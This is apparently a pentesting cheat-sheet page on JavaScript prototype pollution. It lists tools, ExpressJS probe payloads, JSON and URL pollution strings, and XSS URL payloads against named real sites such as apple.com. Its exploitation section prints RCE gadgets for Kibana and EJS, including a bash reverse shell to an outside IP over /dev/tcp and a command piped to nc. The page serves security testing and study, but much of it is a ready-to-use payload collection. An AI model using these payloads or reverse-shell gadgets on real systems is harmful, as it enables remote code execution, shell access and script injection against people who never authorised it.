 # Prototype Pollution

> Prototype pollution is a type of vulnerability that occurs in JavaScript when properties of Object.prototype are modified. This is particularly risky because JavaScript objects are dynamic and we can add properties to them at any time. Also, almost all objects in JavaScript inherit from Object.prototype, making it a potential attack vector.


## Summary

* [Tools](#tools)
* [Methodology](#methodology)
    * [Examples](#examples)
    * [Manual Testing](#manual-testing)
    * [Prototype Pollution via JSON input](#prototype-pollution-via-json-input)
    * [Prototype Pollution in URL](#prototype-pollution-in-url)
    * [Prototype Pollution Payloads](#prototype-pollution-payloads)
    * [Prototype Pollution Gadgets](#prototype-pollution-gadgets)
* [Labs](#labs)
* [References](#references)


## Tools

* [yeswehack/pp-finder](https://github.com/yeswehack/pp-finder) - Help you find gadget for prototype pollution exploitation
* [yuske/silent-spring](https://github.com/yuske/silent-spring) - Prototype Pollution Leads to Remote Code Execution in Node.js
* [yuske/server-side-prototype-pollution](https://github.com/yuske/server-side-prototype-pollution) - Server-Side Prototype Pollution gadgets in Node.js core code and 3rd party NPM packages
* [BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution) - Prototype Pollution and useful Script Gadgets
* [portswigger/server-side-prototype-pollution](https://github.com/portswigger/server-side-prototype-pollution) - Burp Suite Extension detectiong Prototype Pollution vulnerabilities
* [msrkp/PPScan](https://github.com/msrkp/PPScan) - Client Side Prototype Pollution Scanner 


## Methodology

In JavaScript, prototypes are what allow objects to inherit features from other objects. If an attacker is able to add or modify properties of `Object.prototype`, they can essentially affect all objects that inherit from that prototype, potentially leading to various kinds of security risks.

```js
var myDog = new Dog();

// Points to the function "Dog"
myDog.constructor;

// Points to the class definition of "Dog"
myDog.constructor.prototype;
myDog.__proto__;
myDog["__proto__"];
```


### Examples

* Imagine that an application uses an object to maintain configuration settings, like this:
    ```js
    let config = {
        isAdmin: false
    };
    ```
* An attacker might be able to add an `isAdmin` property to `Object.prototype`, like this:
    ```js
    Object.prototype.isAdmin = true;
    ```


### Manual Testing

* ExpressJS: `{ "__proto__":{"parameterLimit":1}}` + 2 parameters in GET request, at least 1 must be reflected in the response.
* ExpressJS: `{ "__proto__":{"ignoreQueryPrefix":true}}` + `??foo=bar`
* ExpressJS: `{ "__proto__":{"allowDots":true}}` + `?foo.bar=baz`
* Change the padding of a JSON response: `{ "__proto__":{"json spaces":" "}}` + `{"foo":"bar"}`, the server should return `{"foo": "bar"}`
* Modify CORS header responses: `{ "__proto__":{"exposedHeaders":["foo"]}}`, the server should return the header `Access-Control-Expose-Headers`.
* Change the status code: `{ "__proto__":{"status":510}}`


### Prototype Pollution via JSON input

You can access the prototype of any object via the magic property `__proto__`. 
The `JSON.parse()` function in JavaScript is used to parse a JSON string and convert it into a JavaScript object. Typically it is a sink function where prototype pollution can happen.


```js
{
    "__proto__": {
        "evilProperty": "evilPayload"
    }
}
```

Asynchronous payload for NodeJS.

```js
{
  "__proto__": {
    "argv0":"node",
    "shell":"node",
    "NODE_OPTIONS":"--inspect=payload\"\".oastify\"\".com"
  }
}
```

Polluting the prototype via the `constructor` property instead.

```js
{
    "constructor": {
        "prototype": {
            "foo": "bar",
            "json spaces": 10
        }
    }
}
```


### Prototype Pollution in URL

Example of Prototype Pollution payloads found in the wild.

```ps1
https://victim.com/#a=b&__proto__[admin]=1
https://example.com/#__proto__[xxx]=alert(1)
http://server/servicedesk/customer/user/signup?__proto__.preventDefault.__proto__.handleObj.__proto__.delegateTarget=%3Cimg/src/onerror=alert(1)%3E
https://www.apple.com/shop/buy-watch/apple-watch?__proto__[src]=image&__proto__[onerror]=alert(1)
https://www.apple.com/shop/buy-watch/apple-watch?a[constructor][prototype]=image&a[constructor][prototype][onerror]=alert(1)
```


### Prototype Pollution Exploitation

Depending if the prototype pollution is executed client (CSPP) or server side (SSPP), the impact will vary.

* Remote Command Execution: [RCE in Kibana (CVE-2019-7609)](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)
    ```js
    .es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
    .props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
    ```
* Remote Command Execution: [RCE using EJS gadgets](https://mizu.re/post/ejs-server-side-prototype-pollution-gadgets-to-rce)
    ```js
    {
        "__proto__": {
            "client": 1,
            "escapeFunction": "JSON.stringify; process.mainModule.require('child_process').exec('id | nc localhost 4444')"
        }
    }
    ```
* Reflected XSS: [Reflected XSS on www.hackerone.com via Wistia embed code - #986386](https://hackerone.com/reports/986386)
* Client-side bypass: [Prototype pollution – and bypassing client-side HTML sanitizers](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)
* Deny of Service


### Prototype Pollution Payloads

```js
Object.__proto__["evilProperty"]="evilPayload"
Object.__proto__.evilProperty="evilPayload"
Object.constructor.prototype.evilProperty="evilPayload"
Object.constructor["prototype"]["evilProperty"]="evilPayload"
{"__proto__": {"evilProperty": "evilPayload"}}
{"__proto__.name":"test"}
x[__proto__][abaeead] = abaeead
x.__proto__.edcbcab = edcbcab
__proto__[eedffcb] = eedffcb
__proto__.baaebfc = baaebfc
?__proto__[test]=test
```


### Prototype Pollution Gadgets

A "gadget" in the context of vulnerabilities typically refers to a piece of code or functionality that can be exploited or leveraged during an attack. When we talk about a "prototype pollution gadget," we're referring to a specific code path, function, or feature of an application that is susceptible to or can be exploited through a prototype pollution attack.

Either create your own gadget using part of the source with [yeswehack/pp-finder](https://github.com/yeswehack/pp-finder), or try to use already discovered gadgets [yuske/server-side-prototype-pollution](https://github.com/yuske/server-side-prototype-pollution) / [BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution).


## Labs

* [YesWeHack Dojo - Prototype Pollution](https://dojo-yeswehack.com/XSS/Training/Prototype-Pollution)
* [PortSwigger - Prototype Pollution](https://portswigger.net/web-security/all-labs#prototype-pollution)


## References

- [A Pentester's Guide to Prototype Pollution Attacks - Harsh Bothra - January 2, 2023](https://www.cobalt.io/blog/a-pentesters-guide-to-prototype-pollution-attacks)
- [A tale of making internet pollution free - Exploiting Client-Side Prototype Pollution in the wild - s1r1us - September 28, 2021](https://blog.s1r1us.ninja/research/PP)
- [Detecting Server-Side Prototype Pollution - Daniel Thatcher - February 15, 2023](https://www.intruder.io/research/server-side-prototype-pollution)
- [Exploiting prototype pollution – RCE in Kibana (CVE-2019-7609) - Michał Bentkowski - October 30, 2019](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)
- [Keynote | Server Side Prototype Pollution: Blackbox Detection Without The DoS - Gareth Heyes - March 27, 2023](https://youtu.be/LD-KcuKM_0M)
- [NodeJS - __proto__ & prototype Pollution - HackTricks - July 19, 2024](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution)
- [Prototype Pollution - PortSwigger - November 10, 2022](https://portswigger.net/web-security/prototype-pollution)
- [Prototype pollution - Snyk - August 19, 2023](https://learn.snyk.io/lessons/prototype-pollution/javascript/)
- [Prototype pollution and bypassing client-side HTML sanitizers - Michał Bentkowski - August 18, 2020](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)
- [Prototype Pollution and Where to Find Them - BitK & SakiiR - August 14, 2023](https://youtu.be/mwpH9DF_RDA)
- [Prototype Pollution Attacks in NodeJS - Olivier Arteau - May 16, 2018](https://github.com/HoLyVieR/prototype-pollution-nsec18/blob/master/paper/JavaScript_prototype_pollution_attack_in_NodeJS.pdf)
- [Prototype Pollution Attacks in NodeJS applications - Olivier Arteau - October 3, 2018](https://youtu.be/LUsiFV3dsK8)
- [Prototype Pollution Leads to RCE: Gadgets Everywhere - Mikhail Shcherbakov - September 29, 2023](https://youtu.be/v5dq80S1WF4)
- [Server side prototype pollution, how to detect and exploit - BitK - February 18, 2023](http://web.archive.org/web/20230218081534/https://blog.yeswehack.com/talent-development/server-side-prototype-pollution-how-to-detect-and-exploit/)
- [Server-side prototype pollution: Black-box detection without the DoS - Gareth Heyes - February 15, 2023](https://portswigger.net/research/server-side-prototype-pollution)